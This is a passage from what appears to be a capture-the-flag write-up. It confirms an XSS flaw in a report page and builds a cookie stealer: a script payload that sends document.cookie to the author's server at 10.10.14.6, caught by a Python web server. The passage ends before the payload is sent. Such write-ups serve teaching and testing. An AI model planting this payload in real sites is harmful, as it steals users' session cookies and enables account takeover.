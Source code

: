 That’s XSS:

![image-20240711144200954](../img/image-20240711144200954.png)

#### Cookie Steal

The simplest XSS payload would to steal the cookie from whoever is looking at
the report. I’ll add a simple cookie stealer:

    
    
    <script>var i=new Image(); i.src="http://10.10.14.6/?c="+document.cookie;</script>
    

This will add a new `<img>` tag to the page with a source URL on my server
that includes the user’s cookie. For this to work the cookie has to not be
configured as `HttpOnly`, which Firefox dev tools shows is False:

![image-20240712094756025](../img/image-20240712094756025.png)

I’ll start a Python webserver using `python -m http.server 80`. I have given
my `python` binary `cap_net_bind_service` so it can listen on low ports
without root. I’d need to run `sudo` without that. Also, my `python` is
Python3.

    
    
    oxdf@hacky$ python -m http.server 80
    Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
    

Now in repeater I’ll send the payload:
